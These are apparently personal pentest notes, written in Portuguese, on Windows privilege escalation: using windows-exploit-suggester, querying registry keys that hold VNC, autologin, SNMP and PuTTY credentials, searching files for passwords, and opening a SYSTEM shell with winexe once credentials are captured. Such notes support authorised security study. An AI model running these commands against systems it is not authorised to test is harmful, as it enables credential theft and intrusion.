 ___

# Kernel Exploit

- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

```
python windows-exploit-suggester.py --update
# Update do wes

nano systeminfo.txt
# Copiar o systeminfo da máquina

python ~/Documentos/tools/Windows/windows-exploit-suggester.py --database ~/Documentos/tools/Windows/2023-02-05-mssb.xls --systeminfo systeminfo.txt 
# Usando windows-exploit-suggester

# É preciso olhar todos os exploits da lista
```


___

# Stored Password

- Olhar nos registradores, porque é mais rápido
- Da pra usar os comandos `dir /s *pass* == .*config` e `findstr /si password *.xml *.ini *.txt`, mas demoram bastante, porque é uma busca recursiva. O winpeas já roda.

```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

winexe -U "admin%<pass>" --system //<ip> cmd.exe
# Para ganhar uma sessão depois de pegar o usuário
```


## Dump do SAM

